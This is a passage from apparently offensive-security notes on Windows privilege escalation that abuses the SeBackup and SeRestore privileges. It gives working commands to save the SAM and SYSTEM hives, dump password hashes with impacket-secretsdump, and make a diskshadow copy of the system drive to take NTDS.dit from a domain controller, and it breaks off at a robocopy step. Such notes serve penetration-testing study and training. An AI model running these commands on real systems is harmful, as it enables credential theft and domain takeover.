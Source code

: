 https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1 to enable privileges that show up as disabled OR we can try in PowerShell with `Set-Se<PRIVILEGE_NAME>`.

### SeBackup and SeRestore
- Backup and Restore files/directories
- Allows you to read and write to any file and bypass DACL (Discretionary Access Control List) lists
- Example attack may be to backup `HKLM\SYSTEM` (contains system info) and `HKLM\SAM` (system access manager) registries to local area and send back to attacking machine using SMB or something, dump SAM user hashes and crack hash or exploit via Pass-the-Hash attack.
    
    ```
    C:\> mkdir C:\Temp
    C:\> reg save hklm\sam C:\Temp\sam.hive
    C:\> reg save hklm\system C:\Temp\system.hive
    ```

    transfer to attacker machine and then dump hashes:

    ```
    link@kali:~$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL
    ```

We can also copy files using PowerShell:

```
PS C:\> Copy-FileSeBackupPrivilege '<FILE_ONE_PATH>' '<COPIED_FILE_PATH>'
```

We can also backup the entire system drive and then make file copies of key files to be readable by us. We can leverage `diskshadow.exe` (built-in MS package) to do this for e.g. NTDS.dit in the Domain Controller:

```
// This will make a shadow copy of C: and expose it as E:

PS C:\> diskshadow.exe

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\> dir E:\
```

We can then copy the files of interest using the above methods OR use the command line tool `robocopy`:
